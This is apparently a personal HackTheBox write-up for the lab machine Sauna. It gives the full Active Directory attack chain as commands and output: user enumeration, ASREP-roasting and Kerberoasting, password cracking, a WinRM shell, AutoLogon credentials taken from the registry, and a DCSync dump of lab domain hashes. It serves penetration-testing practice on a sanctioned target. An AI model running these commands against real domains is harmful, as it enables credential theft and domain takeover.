

---
tags:
  - hack
  - linux
---
# HackTheBox: [Sauna](https://app.hackthebox.com/machines/Sauna)

> [!tip]- Summary with Spoilers
> - This Active Directory environment allowed enumeration of user accounts via `kerbrute`, revealing `fsmith` as vulnerable to ASREP-roasting.
> - I cracked the ASREP hash using `john` and accessed the machine via SMB shares, retrieving the `AutoLogon` credentials from the registry.
> - Privilege escalation was achieved by using the `AutoLogon` credentials to perform a DCSync attack with `secretsdump`, retrieving the domain hashes.

## Summary

This box offers a `kerbrute` and ASREP-roasting exercise, following by sleuthing AutoLogon credentials for an account with `DCSync` rights.

## Services

### TCP

```console
# Nmap 7.94SVN scan initiated Sat Aug 31 11:59:56 2024 as: nmap -v --reason -Pn -T4 --min-rate 10000 -p- --open -sCV -oN nmap_tcp-sauna.htb.txt sauna.htb
Nmap scan report for sauna.htb (10.10.10.175)
Host is up, received user-set (0.12s latency).
rDNS record for 10.10.10.175: t
Not shown: 65515 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-09-01 01:00:31Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49677/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49695/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49716/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2024-09-01T01:01:31
|_  start_date: N/A
|_clock-skew: 7h00m01s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 31 12:02:07 2024 -- 1 IP address (1 host up) scanned in 131.78 seconds
```

#### 80/tcp-http

```console
http://t [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[example@email.com,info@example.com], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.10.10.175], Microsoft-IIS[10.0], Script, Title[Egotistical Bank :: Home]
```


`/about.html`:


```console
$ feroxbuster -u http://sauna.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -d1 -k -s 200,301,302
...
301      GET        2l       10w      147c http://sauna.htb/images => http://sauna.htb/images/
200      GET      385l     1324w    14226c http://sauna.htb/css/slider.css
200      GET      683l     1813w    32797c http://sauna.htb/index.html
200      GET     2337l     3940w    37414c http://sauna.htb/css/font-awesome.css
200      GET      470l     1279w    24695c http://sauna.htb/blog.html
200      GET      684l     1814w    38059c http://sauna.htb/single.html
200      GET      122l      750w    60163c http://sauna.htb/images/t4.jpg
200      GET      111l      661w    50106c http://sauna.htb/images/t1.jpg
200      GET      325l      770w    15634c http://sauna.htb/contact.html
200      GET     2168l     4106w    37019c http://sauna.htb/css/style.css
200      GET      640l     1767w    30954c http://sauna.htb/about.html
200      GET      144l      850w    71769c http://sauna.htb/images/t2.jpg
200      GET      138l      940w    76395c http://sauna.htb/images/t3.jpg
200      GET      389l     1987w   159728c http://sauna.htb/images/ab.jpg
200      GET      268l     2037w   191775c http://sauna.htb/images/skill2.jpg
301      GET        2l       10w      147c http://sauna.htb/Images => http://sauna.htb/Images/
200      GET      657l     3746w   345763c http://sauna.htb/images/skill1.jpg
200      GET     8975l    17530w   178152c http://sauna.htb/css/bootstrap.css
200      GET      683l     1813w    32797c http://sauna.htb/
301      GET        2l       10w      144c http://sauna.htb/css => http://sauna.htb/css/
301      GET        2l       10w      146c http://sauna.htb/fonts => http://sauna.htb/fonts/
301      GET        2l       10w      147c http://sauna.htb/IMAGES => http://sauna.htb/IMAGES/
301      GET        2l       10w      146c http://sauna.htb/Fonts => http://sauna.htb/Fonts/
301      GET        2l       10w      144c http://sauna.htb/CSS => http://sauna.htb/CSS/
[####################] - 3m     87679/87679   0s      found:24      errors:1
[####################] - 3m     87650/87650   462/s   http://sauna.htb/
```

#### 88/tcp-kerb

```console
$ kerbrute userenum -d EGOTISTICALBANK --dc sauna.htb ~/jsmith.txt
...
2024/09/03 10:46:26 >  [+] VALID USERNAME:       hsmith@EGOTISTICALBANK
2024/09/03 10:49:20 >  [+] VALID USERNAME:       fsmith@EGOTISTICALBANK
...
```

There's a null bind available:

```console
$ ldapsearch -x -H ldap://sauna.htb -b "DC=EGOTISTICAL-BANK,DC=LOCAL" -D '' -w '' | tee ldapsearch.txt
# extended LDIF
#
# LDAPv3
# base <DC=EGOTISTICAL-BANK,DC=LOCAL> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# EGOTISTICAL-BANK.LOCAL
dn: DC=EGOTISTICAL-BANK,DC=LOCAL
objectClass: top
objectClass: domain
objectClass: domainDNS
distinguishedName: DC=EGOTISTICAL-BANK,DC=LOCAL
instanceType: 5
whenCreated: 20200123054425.0Z
whenChanged: 20240930232657.0Z
subRefs: DC=ForestDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
subRefs: DC=DomainDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
subRefs: CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
uSNCreated: 4099
dSASignature:: AQAAACgAAAAAAAAAAAAAAAAAAAAAAAAAQL7gs8Yl7ESyuZ/4XESy7A==
uSNChanged: 98336
name: EGOTISTICAL-BANK
objectGUID:: 7AZOUMEioUOTwM9IB/gzYw==
replUpToDateVector:: AgAAAAAAAAAGAAAAAAAAAEbG/1RIhXVKvwnC1AVq4o8WgAEAAAAAAL/EC
 x0DAAAAq4zveNFJhUSywu2cZf6vrQzgAAAAAAAAKDj+FgMAAADc0VSB8WEuQrRECkAJ5oR1FXABAA
 AAAADUbg8XAwAAAP1ahZJG3l5BqlZuakAj9gwL0AAAAAAAANDwChUDAAAAm/DFn2wdfEWLFfovGj4
 TThRgAQAAAAAAENUAFwMAAABAvuCzxiXsRLK5n/hcRLLsCbAAAAAAAADUBFIUAwAAAA==
creationTime: 133722124177741649
forceLogoff: -9223372036854775808
lockoutDuration: -18000000000
lockOutObservationWindow: -18000000000
lockoutThreshold: 0
maxPwdAge: -36288000000000
minPwdAge: -864000000000
minPwdLength: 7
modifiedCountAtLastProm: 0
nextRid: 1000
pwdProperties: 1
pwdHistoryLength: 24
objectSid:: AQQAAAAAAAUVAAAA+o7VsIowlbg+rLZG
serverState: 1
uASCompat: 1
modifiedCount: 1
auditingPolicy:: AAE=
nTMixedDomain: 0
rIDManagerReference: CN=RID Manager$,CN=System,DC=EGOTISTICAL-BANK,DC=LOCAL
fSMORoleOwner: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name
 ,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
systemFlags: -1946157056
wellKnownObjects: B:32:6227F0AF1FC2410D8E3BB10615BB5B0F:CN=NTDS Quotas,DC=EGOT
 ISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:F4BE92A4C777485E878E9421D53087DB:CN=Microsoft,CN=Progra
 m Data,DC=EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:09460C08AE1E4A4EA0F64AEE7DAA1E5A:CN=Program Data,DC=EGO
 TISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:22B70C67D56E4EFB91E9300FCA3DC1AA:CN=ForeignSecurityPrin
 cipals,DC=EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:18E2EA80684F11D2B9AA00C04F79F805:CN=Deleted Objects,DC=
 EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:2FBAC1870ADE11D297C400C04FD8D5CD:CN=Infrastructure,DC=E
 GOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:AB8153B7768811D1ADED00C04FD8D5CD:CN=LostAndFound,DC=EGO
 TISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:AB1D30F3768811D1ADED00C04FD8D5CD:CN=System,DC=EGOTISTIC
 AL-BANK,DC=LOCAL
wellKnownObjects: B:32:A361B2FFFFD211D1AA4B00C04FD7D83A:OU=Domain Controllers,
 DC=EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:AA312825768811D1ADED00C04FD8D5CD:CN=Computers,DC=EGOTIS
 TICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:A9D1CA15768811D1ADED00C04FD8D5CD:CN=Users,DC=EGOTISTICA
 L-BANK,DC=LOCAL
objectCategory: CN=Domain-DNS,CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,D
 C=LOCAL
isCriticalSystemObject: TRUE
gPLink: [LDAP://CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=Syste
 m,DC=EGOTISTICAL-BANK,DC=LOCAL;0]
dSCorePropagationData: 16010101000000.0Z
otherWellKnownObjects: B:32:683A24E2E8164BD3AF86AC3C2CF3F981:CN=Keys,DC=EGOTIS
 TICAL-BANK,DC=LOCAL
otherWellKnownObjects: B:32:1EB93889E40C45DF9F0C64D23BBB6237:CN=Managed Servic
 e Accounts,DC=EGOTISTICAL-BANK,DC=LOCAL
masteredBy: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name,CN
 =Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
ms-DS-MachineAccountQuota: 10
msDS-Behavior-Version: 7
msDS-PerUserTrustQuota: 1
msDS-AllUsersTrustQuota: 1000
msDS-PerUserTrustTombstonesQuota: 10
msDs-masteredBy: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Na
 me,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
msDS-IsDomainFor: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-N
 ame,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
msDS-NcType: 0
msDS-ExpirePasswordsOnSmartCardOnlyAccounts: TRUE
dc: EGOTISTICAL-BANK
```

#### 445/tcp-smb

```console
$ cat usernames.txt
hsmith
fsmith

$ nxc smb sauna.htb -u ./usernames.txt -p /usr/share/seclists/Passwords/darkweb2017-top100.txt
SMB         10.10.10.175    445    SAUNA            [*] Windows 10 / Server 2019 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
...
[nothing]
```

### `enum4linux-ng`

```console
$ enum4linux-ng sauna.htb | tee e4l.txt
ENUM4LINUX - next generation (v1.3.4)
...
 ========================================================
|    Domain Information via SMB session for sauna.htb    |
 ========================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: SAUNA
NetBIOS domain name: EGOTISTICALBANK
DNS domain: EGOTISTICAL-BANK.LOCAL
FQDN: SAUNA.EGOTISTICAL-BANK.LOCAL
Derived membership: domain member
Derived domain: EGOTISTICALBANK
...
 ================================================
|    Domain Information via RPC for sauna.htb    |
 ================================================
[+] Domain: EGOTISTICALBANK
[+] Domain SID: S-1-5-21-2966785786-3096785034-1186376766
[+] Membership: domain member

 ============================================
|    OS Information via RPC for sauna.htb    |
 ============================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Could not get OS info via 'srvinfo': STATUS_ACCESS_DENIED
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016
OS version: '10.0'
OS release: '1809'
OS build: '17763'
...
Completed after 37.73 seconds
```

## Remote Code Execution

User `fsmith` has Kerberos pre-auth disabled, so I can do ASREP-Roasting.

```console
$ impacket-GetNPUsers egotistical-bank.local/fsmith -dc-ip 10.10.10.175 -request
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Password:
[*] Cannot authenticate fsmith, getting its TGT
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:657fb1dd1c6defdfba37041741f0b14d$24298962d1fba318d23a7a9e6843826af06770eef81a544559aaec8e63a9e1cad0d639b7efea5ade116cb2b7e33510bee8b1862ded594b087e839c9038dd6b0c95b937df1664322751d3f24c601aa6cd313d024d94184a334489ec854ea6806f7b429bc96874c334a7a59ff846238f66da602bff406cac2bf60935c9a2f5220a22e305ac48f2f16c6008962a396fc3c9d57b5064b994df8965aac49a62ea38d66be313d9312551a3dcde32b6846611d10cbbec04c5942ebc20d01a72ce0e02c8aa5aab4a6927d065dd401f89b3fd68be5ce07e71ef9a74c603c071fb7323e307eecd9465812501408f703461e6acd9b43108d54968604cfef49f60626c594375
```

```console
$ hashcat ./sauna.asrep ~/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode
...
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:657fb1dd1c6defdfba37041741f0b14d$24298962d1fba318d23a7a9e6843826af06770eef81a544559aaec8e63a9e1cad0d639b7efea5ade116cb2b7e33510bee8b1862ded594b087e839c9038dd6b0c95b937df1664322751d3f24c601aa6cd313d024d94184a334489ec854ea6806f7b429bc96874c334a7a59ff846238f66da602bff406cac2bf60935c9a2f5220a22e305ac48f2f16c6008962a396fc3c9d57b5064b994df8965aac49a62ea38d66be313d9312551a3dcde32b6846611d10cbbec04c5942ebc20d01a72ce0e02c8aa5aab4a6927d065dd401f89b3fd68be5ce07e71ef9a74c603c071fb7323e307eecd9465812501408f703461e6acd9b43108d54968604cfef49f60626c594375:Thestrokes23
```

```console
$ evil-winrm -i sauna.htb -u fsmith -p 'Thestrokes23'
Evil-WinRM shell v3.5
...

*Evil-WinRM* PS C:\Users\FSmith\Documents> cat ~/desktop/user.txt
213ea2...
```

## Privilege Escalation

I run `SharpHound.exe` on the target, and discover that user `hsmith` is Kerberoastable, at least according to Bloodhound. But Rubeus doesn't agree:

```console
*Evil-WinRM* PS C:\Users\FSmith> ./r.exe kerberoast /outfile:hashes.kerberoast

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.3


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : EGOTISTICAL-BANK.LOCAL
[*] Searching path 'LDAP://SAUNA.EGOTISTICAL-BANK.LOCAL/DC=EGOTISTICAL-BANK,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1


[*] SamAccountName         : HSmith
[*] DistinguishedName      : CN=Hugo Smith,DC=EGOTISTICAL-BANK,DC=LOCAL
[*] ServicePrincipalName   : SAUNA/HSmith.EGOTISTICALBANK.LOCAL:60111
[*] PwdLastSet             : 1/22/2020 9:54:34 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT

 [X] Error during request for SPN SAUNA/HSmith.EGOTISTICALBANK.LOCAL:60111@EGOTISTICAL-BANK.LOCAL : No credentials are available in the security package
```

I try this, and for some reason it works. Maybe the domain?

```console
*Evil-WinRM* PS C:\Users\FSmith> ./r.exe kerberoast /creduser:egotistical-bank.local\fsmith /credpassword:"Thestrokes23" /outfile:hashes.kerberoast
...
[*] Total kerberoastable users : 1

[*] SamAccountName         : HSmith
[*] DistinguishedName      : CN=Hugo Smith,DC=EGOTISTICAL-BANK,DC=LOCAL
[*] ServicePrincipalName   : SAUNA/HSmith.EGOTISTICALBANK.LOCAL:60111
[*] PwdLastSet             : 1/22/2020 9:54:34 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash written to C:\Users\FSmith\hashes.kerberoast

[*] Roasted hashes written to : C:\Users\FSmith\hashes.kerberoast
```

I crack it, and it's actually the same password as `fsmith`, which is: `Thestrokes23`

I verify it works with `nxc`:

```console
$ nxc smb sauna.htb -u hsmith -p 'Thestrokes23'
SMB         10.10.10.175    445    SAUNA            [*] Windows 10 / Server 2019 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.175    445    SAUNA            [+] EGOTISTICAL-BANK.LOCAL\hsmith:Thestrokes23
```

But, it doesn't work for `evil-winrm`:

```console
$ evil-winrm -i sauna.htb -u hsmith -p 'Thestrokes23'
...
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
Error: Exiting with code 1
```

Maybe because `fmsith` is in `Remote Management Users` and `hsmith` is not?

I get very stuck at this point. Guided mode on HTB told me to look for account with AutoLogon enabled using winPEAS, which I did, and it told me there were none.

```text
ÉÍÍÍÍÍÍÍÍÍ͹ Looking for AutoLogon credentials
    Not Found  
```

Another walk-through told me the same thing. I'm not sure what I'm missing. Maybe HTB removed that discovery vector after the walkthroughs were written? Was winPEAS broken?

I think this was because I was accidentally using `winPEASx86.exe`. I ran it again using the build `winPEASany.exe` and it worked as expected.

Here's a registry query that gives what I need:

```console
PS C:\Users\FSmith> reg.exe query "HKLM\software\microsoft\windows nt\currentversion\winlogon"

HKEY_LOCAL_MACHINE\software\microsoft\windows nt\currentversion\winlogon
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    CachedLogonsCount    REG_SZ    10
    DebugServerCommand    REG_SZ    no
    DefaultDomainName    REG_SZ    EGOTISTICALBANK
    DefaultUserName    REG_SZ    EGOTISTICALBANK\svc_loanmanager
    DisableBackButton    REG_DWORD    0x1
    EnableSIHostIntegration    REG_DWORD    0x1
    ForceUnlockLogon    REG_DWORD    0x0
    LegalNoticeCaption    REG_SZ
    LegalNoticeText    REG_SZ
    PasswordExpiryWarning    REG_DWORD    0x5
    PowerdownAfterShutdown    REG_SZ    0
    PreCreateKnownFolders    REG_SZ    {A520A1A4-1780-4FF6-BD18-167343C5AF16}
    ReportBootOk    REG_SZ    1
    Shell    REG_SZ    explorer.exe
    ShellCritical    REG_DWORD    0x0
    ShellInfrastructure    REG_SZ    sihost.exe
    SiHostCritical    REG_DWORD    0x0
    SiHostReadyTimeOut    REG_DWORD    0x0
    SiHostRestartCountLimit    REG_DWORD    0x0
    SiHostRestartTimeGap    REG_DWORD    0x0
    Userinit    REG_SZ    C:\Windows\system32\userinit.exe,
    VMApplet    REG_SZ    SystemPropertiesPerformance.exe /pagefile
    WinStationsDisabled    REG_SZ    0
    scremoveoption    REG_SZ    0
    DisableCAD    REG_DWORD    0x1
    LastLogOffEndTimePerfCounter    REG_QWORD    0x156458a35
    ShutdownFlags    REG_DWORD    0x13
    DisableLockWorkstation    REG_DWORD    0x0
    DefaultPassword    REG_SZ    Moneymakestheworldgoround!
```

Creds: `svc_loanmanager:Moneymakestheworldgoround!`

This account has `DCSync` privileges:



```console
$ impacket-secretsdump 'EGOTISTICAL-BANK/svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
EGOTISTICAL-BANK.LOCAL\HSmith:1103:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\FSmith:1105:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:aad3b435b51404eeaad3b435b51404ee:9cb31797c39a9b170b04058ba2bba48c:::
SAUNA$:1000:aad3b435b51404eeaad3b435b51404ee:0b4e0b24550aef5973e155c58f0328b9:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:42ee4a7abee32410f470fed37ae9660535ac56eeb73928ec783b015d623fc657
Administrator:aes128-cts-hmac-sha1-96:a9f3769c592a8a231c3c972c4050be4e
Administrator:des-cbc-md5:fb8f321c64cea87f
krbtgt:aes256-cts-hmac-sha1-96:83c18194bf8bd3949d4d0d94584b868b9d5f2a54d3d6f3012fe0921585519f24
krbtgt:aes128-cts-hmac-sha1-96:c824894df4c4c621394c079b42032fa9
krbtgt:des-cbc-md5:c170d5dc3edfc1d9
EGOTISTICAL-BANK.LOCAL\HSmith:aes256-cts-hmac-sha1-96:5875ff00ac5e82869de5143417dc51e2a7acefae665f50ed840a112f15963324
EGOTISTICAL-BANK.LOCAL\HSmith:aes128-cts-hmac-sha1-96:909929b037d273e6a8828c362faa59e9
EGOTISTICAL-BANK.LOCAL\HSmith:des-cbc-md5:1c73b99168d3f8c7
EGOTISTICAL-BANK.LOCAL\FSmith:aes256-cts-hmac-sha1-96:8bb69cf20ac8e4dddb4b8065d6d622ec805848922026586878422af67ebd61e2
EGOTISTICAL-BANK.LOCAL\FSmith:aes128-cts-hmac-sha1-96:6c6b07440ed43f8d15e671846d5b843b
EGOTISTICAL-BANK.LOCAL\FSmith:des-cbc-md5:b50e02ab0d85f76b
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes256-cts-hmac-sha1-96:6f7fd4e71acd990a534bf98df1cb8be43cb476b00a8b4495e2538cff2efaacba
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes128-cts-hmac-sha1-96:8ea32a31a1e22cb272870d79ca6d972c
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:des-cbc-md5:2a896d16c28cf4a2
SAUNA$:aes256-cts-hmac-sha1-96:4d64bf411fd4899f722f5ac62e0ec6fdefd6f6b39535d5942b443f4b4bccebdf
SAUNA$:aes128-cts-hmac-sha1-96:86b058bef579b61fc65584cf691548c1
SAUNA$:des-cbc-md5:a45e0e765115c8a1
[*] Cleaning up...
```
